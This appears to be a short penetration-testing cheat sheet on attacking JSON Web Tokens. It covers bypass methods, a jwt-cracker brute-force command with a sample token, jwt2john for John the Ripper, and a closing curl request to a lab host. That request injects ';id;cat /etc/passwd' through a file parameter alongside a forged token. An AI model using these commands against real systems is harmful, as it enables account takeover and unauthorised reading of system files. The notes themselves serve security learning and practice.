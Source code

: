 # JWT Tokens

The three main ways to bypass JWT validation:

* Using the `none` alg
* Hijacking another user
* Brute forcing the key.

### Decode the JWT token

{% embed url="https://jwt.io" %}

### Crack JWT tokens

{% embed url="https://lmammino.github.io/jwt-cracker" %}

* {% code overflow="wrap" %}
  ```bash
  jwt-cracker -t <token> [-a <alphabet>] [--max <maxLength>] [-d <dictionaryFilePath>] [-f]

  jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
  ```
  {% endcode %}

### Jwt2john

&#x20;jwt2john.py JWT

&#x20;Convert a JWT to a format John the Ripper can understand.

&#x20;John the Ripper now supports the JWT format, so converting the token is no longer necessary. John has a size limit on the data it will take. If you run into this limit, consider changing SALT\_LIMBS in the source code.

### Local file inclusion

```
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWUzNGRkOWJmNTYxMjA0NjIyMGQxYzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imxlb25AbGVvbi5jb20iLCJpYXQiOjE2NDIyODcxMDJ9.5MlYl8Eubb0sci3Jt3cuacNSki36aGeUoHNrMWXeBXE' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
